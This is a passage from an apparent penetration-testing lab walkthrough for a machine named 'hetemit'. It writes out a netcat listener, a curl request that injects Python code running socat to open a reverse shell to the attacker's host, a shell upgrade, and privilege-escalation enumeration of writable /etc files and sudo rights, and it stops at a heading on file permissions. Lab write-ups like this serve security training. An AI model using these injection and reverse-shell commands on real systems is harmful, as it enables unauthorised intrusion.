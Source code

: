 Luckily, the module is present so we can go straight to a shell. First, set up a listener:

```
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
```

Then, create a reverse shell connection:

```
kali@kali:~$ curl -X POST --data "code=os.system('socat TCP:192.168.118.8:18000 EXEC:sh')" http://192.168.120.36:50000/verify
```

And we catch a reverse shell:

```
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.36] 44872
python3 -c 'import pty; pty.spawn("/bin/bash")'

[cmeeks@hetemit restjson_hetemit]$ whoami
cmeeks
```

## Escalation

### Enumeration

Let’s explore the filesystem and locate the configuration files that we can modify.

```
[cmeeks@hetemit restjson_hetemit]$ find /etc -type f -writable 2> /dev/null
find /etc -type f -writable 2> /dev/null
/etc/systemd/system/pythonapp.service
```

Next, let’s check our sudo permissions.
 We discover that we can reboot and shutdown the computer:

```
[cmeeks@hetemit ~]$ sudo -l    
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

### Incorrect File Permissions
